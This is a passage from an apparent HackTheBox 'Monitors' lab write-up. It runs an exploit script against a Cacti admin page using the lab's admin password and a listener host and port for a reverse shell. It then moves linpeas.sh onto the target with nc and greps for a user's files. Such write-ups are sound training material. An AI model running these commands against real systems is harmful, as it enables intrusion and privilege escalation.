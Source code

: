 ```bash
python 49810.py -t http://cacti-admin.monitors.htb -u admin -p 'BestAdministrator@2020!' --lhost 10.10.14.8 --lport 9001
```

![](/assets/img/monitor/10.png)


## Escalate Marcus User

inside sistem we cannot find tools `curl` and `wget`, so we can still use nc for transfer files, in this case im gonna put linpeas.sh for further enumeration.

target:
```bash
nc -l -p 9002 > linpeas.sh
```

host:
```bash
nc 10.10.10.238 9002 < linpeas.sh
```

unfortunately i dont get anything usefull about the result of linpeas.log, i already done with `find` command for filtering of user and group but only still see permission denied.
but when we use `grep` with option `-Rwi` for input string only will discover backup.sh file.

```bash
grep -Rwi "marcus"
```

![](/assets/img/monitor/14.png)
